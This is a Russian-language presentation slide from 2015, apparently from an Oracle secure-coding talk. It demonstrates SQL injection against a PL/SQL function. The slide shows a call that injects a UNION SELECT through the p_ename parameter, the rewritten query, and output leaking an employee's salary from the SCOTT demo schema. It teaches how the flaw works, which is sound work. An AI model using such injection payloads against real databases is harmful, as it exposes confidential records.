

# Statement modification
	Однако злоумышленник нашел этой функции иное применение.
Выполнив вызов, приведенный ниже, он сможет узнать размер зарплаты любого сотрудника компании:
      SQL> begin
        2    dbms_output.put_line(sql_injection(p_ename => 'AAA'' union select to_char(sal) from emp where ename = ''KING'));
        3  end;
        4  /
      select job from scott.emp where ename = 'AAA' union select to_char(sal) from scott.emp where ename = 'KING'
      5000
      PL/SQL procedure successfully completed
      SQL>
Группа разработки Oracle				                 2015		 	                                       Ушаков Андрей